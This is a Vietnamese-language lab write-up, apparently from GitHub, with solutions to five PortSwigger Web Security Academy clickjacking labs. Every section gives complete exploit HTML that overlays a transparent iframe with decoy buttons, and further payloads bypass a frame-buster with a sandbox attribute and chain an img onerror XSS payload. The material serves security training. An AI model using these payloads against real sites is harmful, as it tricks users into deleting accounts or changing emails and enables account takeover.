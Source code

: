 # 1. Basic clickjacking with CSRF token protection
Ta vào exploit server và config đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 144px;
  height: 34px;
  position: relative;
  top: 480px;
  left: 19px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0a2c004d03768f27c0ac86a700870048.web-security-academy.net/my-account"></iframe>
</body>
```

Đoạn XML trên sẽ tạo một `<iframe>` trỏ tới website có lỗ hổng clickjacking, làm mờ thẻ `<iframe>`, sau đó đặt 1 button đè lên button "Delete account". Khi user click vào button, request xóa user sẽ được gửi đi.

Sau khi click "Deliver to victim", kết quả thành công.

# 2. Clickjacking with form input data prefilled from a URL parameter
Để giải bài lab, ta cần đổi email của user. Nhận thấy nếu đặt query string trong email, ví dụ `/my-account?email=attacker@gmail.com` thì trong ô input của email sẽ tự động được gán giá trị "attacker@gmail.com"

Vào exploit server và cấu hình đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 136px;
  height: 34px;
  position: relative;
  top: 433;
  left: 32px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0a00002103d37562c01a91bf00d600cb.web-security-academy.net/my-account?email=attacker@gmail.com"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 3. Clickjacking with a frame buster script
Website có sử dụng Javascript để chặn việc website bị framed:

![image](https://user-images.githubusercontent.com/103978452/210330878-b459d61f-06fb-4b79-827b-19301fd75ede.png)

Tuy nhiên với thuộc tính `sandbox="allow-forms"`, ta có thể disable Javascript. Cấu hình đoạn HTML sau trong exploit server:

```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 136px;
  height: 34px;
  position: relative;
  top: 433;
  left: 32px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0ab100360375e346c04af916004800ba.web-security-academy.net/my-account?email=attacker@gmail.com" sandbox="allow-forms"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS
Trong chức năng submit feedback, thử submit với tham số `name=<img src=1 onerror=print()>` thì thấy lệnh print() được execute. Như vậy website có lỗ hổng XSS. Khi ta thêm các tham số name, email, subject và message vào GET request thì giá trị của các ô input được điền vào. Như vậy ta có thể exploit clickjacking.

Trong exploit server, ta cấu hình đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 1000px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 161px;
  height: 34px;
  position: relative;
  top: 777px;
  left: 18px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0ae2003d03b0871cc05cfe2200db00cb.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=test@gmail.com&subject=test&message=test"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 5. Multistep clickjacking
Để thực hiện multistep clickjacking, ta chỉ cần tạo hai button với label là "Click me first" và "Click me next". Vào exploit server và cấu hình đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#target_website2{
  display: none;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click1{
  width: 148px;
  height: 34px;
  position: relative;
  top: 479px;
  left: 18px;
  border-radius: 30px;
}
#click2{
  width: 122px;
  height: 34px;
  position: relative;
  top: 278px;
  left: 32px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click1">Click me first</button>
    <button id="click2">Click me next</button>
  </div>
  <iframe id="target_website" src="https://0ae8001c0370749ec17208d100490052.web-security-academy.net/my-account?email=attacker@gmail.com"></iframe>
</body>
```

Sau khi click "Deliver to victim", bài lab được giải thành công.
